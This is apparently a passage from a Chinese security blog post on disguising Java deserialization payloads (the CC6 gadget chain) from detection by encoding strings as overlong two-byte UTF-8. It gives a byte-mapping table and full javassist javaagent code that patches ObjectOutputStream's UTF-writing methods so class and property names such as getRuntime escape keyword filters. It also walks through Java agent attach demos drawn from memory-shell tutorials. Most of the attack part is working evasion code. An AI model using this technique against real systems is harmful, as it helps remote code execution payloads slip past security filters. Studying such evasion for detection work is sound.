
然后我看了下网上最开始的方案吧
是设置了一个转换的map，然后将length*2or3，然后直接write的这种形式，现在看感觉可能感觉有点小笨拙hh，但我的poc和这种方式都有一个问题就是都只针对了classname还有属性名和属性值没操作呀！！！我的评价是imperfect
map = new HashMap<>();
map.put('.', new int[]{0xc0, 0xae});
map.put(';', new int[]{0xc0, 0xbb});
map.put('$', new int[]{0xc0, 0xa4});
map.put('[', new int[]{0xc1, 0x9b});
map.put(']', new int[]{0xc1, 0x9d});
map.put('a', new int[]{0xc1, 0xa1});
map.put('b', new int[]{0xc1, 0xa2});
map.put('c', new int[]{0xc1, 0xa3});
map.put('d', new int[]{0xc1, 0xa4});
map.put('e', new int[]{0xc1, 0xa5});
map.put('f', new int[]{0xc1, 0xa6});

可以看到既然还有getRuntime这种字眼！！

那么就开始我们的perfect之路吧
调试发现在writeString会对属性进行操作

但是writeString和writeTypeString都不是public呀，我们不能直接重写。
要重写writeString的话要到在一个包里面呀，没错我还真这么干了。。。。但是没成功hh

我们本地生成个package也是java.io，然后在另一个类调用一次我们的MyObjectOutputStream，目的是生成class文件，在target中找到class文件，关闭相关java应用然后找到这个rt.jar包插入我们class，我把java源码放到src.zip中了方便调试

执行是成功了，生成的东西看着也没啥毛病，但是反序列化的时候出问题了，但是我不想分析这个了，跟我最初的思路背道而驰了
估计是这个handles的问题，我把这个handles编码相关的都注释了，不然运行不了，因为他也是一个子类的值后面又很麻烦！——！

看到writeString归根到底，还是调用的writeUTFBody方法，那我都到修改java.io下的包了，为什么不直接修改writeUTFBody里的代码不就行了么？？

但是我又懒得再操作一篇了hh，因为我看到了这篇文章 用agent操作 ，思路是一样就是修改writeUTFBody的代码，文章中是注释了其他if范围限制，都用3byte的形式生成utf-8编码
0x05 agent
当然啦对于不会agent的小伙伴来说，会有点困难，笔者这里也不会不然不至于绕那么多圈子，那就在这里突破极限！！
推荐两篇文章，demo构建起来挺顺利的，也有个大概的理解，这里主要用来修改字节码
- 通过
-javaagent参数指定 agent, 从而在 JVM 启动之前修改 class 内容 (自 JDK 1.5) - 通过
VirtualMachine.attach()方法, 将 agent 附加在启动后的 JVM 进程中, 进而动态修改class内容，然后重新加载这个class (自 JDK 1.6)
https://xz.aliyun.com/t/12626?time__1311=GqGxuD2DgAuDlrzY0%3DKqTa%3DeGQnox#toc-0
https://exp10it.io/2023/01/java-agent-%E5%86%85%E5%AD%98%E9%A9%AC/#ide-%E9%85%8D%E7%BD%AE //window跟这篇直接idea构造的demo
这里就不再叙述了，记录下构建demo的一些细节的地方
- 依赖可以直接 在库里面添加java来添加jar

或者pom.xml
<dependency>
<groupId>com.sun</groupId>
<artifactId>tools</artifactId>
<version>1.8.0</version>
<scope>system</scope>
<systemPath>C:/MyFiles/Tools/ENV/JAVA/jdk1.8.0_74/lib/tools.jar</systemPath>
</dependency>
- -javaagent

这里idea点击修改选项，然后添加虚拟机选项，这时会在test类上方多出一行，这个地方填入我们的javaagent
-
其中带有
Instrumentation inst参数的方法优先级更高, 会优先被调用这句话的理解，我实验的结果是，
两个premain都存在的时候只执行了inst参数的，当只有args参数的premain的时候会输出 on inset

agentmain 方式
Demo
package com.example;
import java.lang.instrument.Instrumentation;
public class Demo {
public static void agentmain(String args, Instrumentation inst) throws Exception {
System.out.println("agentmain");
}
}
MANIFEST.MF
Manifest-Version: 1.0
Agent-Class: com.example.Demo
然后打包成agent.jar
另一个idea项目下
test用于模拟一直运行的程序
public class test {
public static void main(String[] args) throws InterruptedException {
while (true) {
System.out.println("Hello World");
Thread.sleep(1000);
}
}
}
jps找到test对应id
import com.sun.tools.attach.*;
import java.io.IOException;
import java.util.List;
public class agent_test {
public static void main(String[] args) throws AgentLoadException, IOException, AgentInitializationException, AttachNotSupportedException {
VirtualMachine attach = VirtualMachine.attach("21476"); // 命令行找到这个jvm的进程号
attach.loadAgent("C:\\Users\\jie\\Desktop\\Java\\Learn\\out\\artifacts\\agent_jar\\agent.jar");
attach.detach();
System.out.println("attach ok");
// List<VirtualMachineDescriptor> list = VirtualMachine.list(); // 得到 JVM 进程列表
// for (VirtualMachineDescriptor desc : list){ // 遍历
// String name = desc.displayName(); // 进程名
// String pid = desc.id(); // PID
//
// if (name.contains("test")){
// System.out.println(pid);
// VirtualMachine vm = VirtualMachine.attach(pid);
// vm.loadAgent("C:\\Users\\jie\\Desktop\\Java\\Learn\\out\\artifacts\\agent_jar\\agent.jar");
// vm.detach();
// System.out.println("attach ok");
// break;
// }
// }
}
}
然后运行agent_test进行attach，成功执行agentmain()中的代码

实战
我们学完agent怎么修改class后解决这个问题轻而易举！
我这里是用premain，然后通过javaagent来加载我们生成的jar包，这里直接上我最后的poc吧
JieTransformer
package com.jie;
import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.security.ProtectionDomain;
import java.io.IOException;
public class JieTransformer implements ClassFileTransformer {
@Override
public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
try {
//拦截即将被加载或重加载的class
if(className.equals("java/io/ObjectOutputStream$BlockDataOutputStream")) {
System.out.println("111111111111111");
ClassPool cp = ClassPool.getDefault();
cp.importPackage(IOException.class.getName());
// if (classBeingRedefined != null) {
// ClassClassPath ccp = new ClassClassPath(classBeingRedefined);
// cp.insertClassPath(ccp);
// }
CtClass ctc = cp.get("java.io.ObjectOutputStream$BlockDataOutputStream");
CtMethod method1 = ctc.getDeclaredMethod("getUTFLength", new CtClass[]{cp.get("java.lang.String")});
ctc.removeMethod(method1);
CtMethod make1=CtNewMethod.make("long getUTFLength(String s) {\n" +
" int len = s.length();\n" +
" long utflen = 0;\n" +
" for (int off = 0; off < len; ) {\n" +
" int csize = Math.min(len - off, CHAR_BUF_SIZE);\n" +
" s.getChars(off, off + csize, cbuf, 0);\n" +
" for (int cpos = 0; cpos < csize; cpos++) {\n" +
" char c = cbuf[cpos];\n" +
// " if (c >= 0x0001 && c <= 0x0020) {\n" +
// " utflen++;\n" +
// " } else if (c > 0x07FF) {\n" +
// " utflen += 3;\n" +
// " } else {\n" +
" utflen += 2;\n" +
// " }\n" +
" }\n" +
" off += csize;\n" +
" }\n" +
" return utflen;\n" +
" }",ctc);
CtMethod method2 = ctc.getDeclaredMethod("writeUTFBody", new CtClass[]{cp.get("java.lang.String")});
ctc.removeMethod(method2);
CtMethod make2=CtMethod.make("private void writeUTFBody(String s) {\n" +
" int limit = MAX_BLOCK_SIZE - 3;\n" +
" int len = s.length();\n" +
" for (int off = 0; off < len; ) {\n" +
" int csize = Math.min(len - off, CHAR_BUF_SIZE);\n" +
" s.getChars(off, off + csize, cbuf, 0);\n" +
" for (int cpos = 0; cpos < csize; cpos++) {\n" +
" char c = cbuf[cpos];\n" +
" if (pos <= limit) {\n" +
// " if (c <= 0x0020 && c != 0) {\n" +
// " buf[pos++] = (byte) c;\n" +
// " } else if (c > 0x07FF) {\n" +
// " buf[pos + 2] = (byte) (0x80 | ((c >> 0) & 0x3F));\n" +
// " buf[pos + 1] = (byte) (0x80 | ((c >> 6) & 0x3F));\n" +
// " buf[pos + 0] = (byte) (0xE0 | ((c >> 12) & 0x0F));\n" +
// " pos += 3;\n" +
// " } else {\n" +
" buf[pos + 1] = (byte) (0x80 | ((c >> 0) & 0x3F));\n" +
" buf[pos + 0] = (byte) (0xC0 | ((c >> 6) & 0x1F));\n" +
" pos += 2;\n" +
// " }\n" +
" } else { // write one byte at a time to normalize block\n" +
// " if (c <= 0x0020 && c != 0) {\n" +
// " write(c);\n" +
// " } else if (c > 0x07FF) {\n" +
// " write(0xE0 | ((c >> 12) & 0x0F));\n" +
// " write(0x80 | ((c >> 6) & 0x3F));\n" +
// " write(0x80 | ((c >> 0) & 0x3F));\n" +
// " } else {\n" +
" write(0xC0 | ((c >> 6) & 0x1F));\n" +
" write(0x80 | ((c >> 0) & 0x3F));\n" +
// " }\n" +
" }\n" +
" }\n" +
" off += csize;\n" +
" }\n" +
" }",ctc);
ctc.addMethod(make1);
ctc.addMethod(make2);
byte[] bytes = ctc.toBytecode();
ctc.detach();
System.out.println("maked");
return bytes;
}
} catch (Exception e){
e.printStackTrace();
}
return null;
}
}
Demo
package com.jie;
import com.n1ght.NightTransformer;
import java.io.ObjectOutputStream;
import java.lang.instrument.Instrumentation;
import java.lang.reflect.AccessibleObject;
public class Demo {
public static void premain(String args, Instrumentation inst) throws Exception {
inst.addTransformer(new JieTransformer(), true);
//生成transform()
inst.retransformClasses(new Class[] { Object.class });
//这里只是用来触发生成transform()
// 重加载某个 class, 注意在重加载 class 的过程中, 之前设置的 transformer 会拦截该 class
}
}
MANIFEST.MF
Manifest-Version: 1.0
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Premain-Class: com.jie.Demo
然后将这个模块生成jar包，在CC6执行添加这个-javaagent:jarpath
看看效果图吧，属性的问题都解决了
